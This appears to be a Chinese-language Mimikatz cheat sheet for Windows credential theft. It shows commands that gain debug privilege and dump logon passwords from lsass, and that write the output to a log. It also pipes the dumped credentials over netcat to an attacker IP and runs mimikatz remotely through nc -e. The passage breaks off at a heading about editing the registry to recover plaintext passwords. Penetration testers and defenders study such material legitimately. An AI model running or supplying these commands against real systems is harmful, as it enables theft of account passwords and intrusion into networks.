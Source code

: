 
# 基本使用

提权
```bash
privilege::debug    # 获取调试权限
```

抓取密码
```bash
sekurlsa::logonpasswords
```

如果你没有访问 lsass 进程的权限，那你就抓不到密码, 报错如下
```
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

输出
```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir
# 记录 Mimikatz 输出
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
# 输出到 log.txt
```

输出传输到远程机器
```bash
# Attacker 执行
nc -lvp 4444

# Victim 执行
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.1.1 4444
# 192.168.1.1 为Attacker IP
```

通过 nc 远程执行
```bash
# Victim 执行
nc -lvp 443

# Attacker 执行
nc.exe -vv 192.168.1.2 443 -e mimikatz.exe
# 192.168.1.2 为 Victim IP
```

---

# 无法抓取 windows 明文密码的解决方法

## 改注册表

在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
